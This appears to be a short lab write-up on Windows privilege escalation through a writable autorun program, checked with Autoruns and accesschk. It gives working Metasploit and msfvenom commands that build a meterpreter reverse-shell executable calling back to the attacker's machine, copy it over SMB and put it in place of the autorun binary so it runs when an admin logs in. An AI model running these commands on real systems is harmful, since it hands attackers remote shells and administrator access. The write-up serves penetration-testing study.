 # Autorun

we start to search on auto run program using tool call **`Autoruns` we specific target logon tab**

![2025-07-05 17\_29\_59-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_17_29_59 Kali_Linux_ _VMware_Workstation.png>)

we found App auto run after login call `program.exe` so we targeted this app and let’s now the privilege of this app

we use tool call `Accessckh`

```powershell
accesschk64.exe -wvu "C:\Program Files\Autorun Program"

# w -> write permission
# u -> users
# v -> verbose
```

![2025-07-05 17\_33\_42-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 05_17_33_42 Kali_Linux_ _VMware_Workstation.png>)

so we start to create a reverse shell with this name and try to replace it in the path of app

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost [Kali VM IP Address]
run
```

and in another tab create a reverse shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe
```

then move it from kali to windows using smb protocol

```powershell
copy \\10.21.218.60\kali\program.exe C:\Users\User\Desktop\Tools\program.exe 
```

then move it to the target path and then try to login with admin acc and boom

![image.png](<../../../.gitbook/assets/image (35).png>)

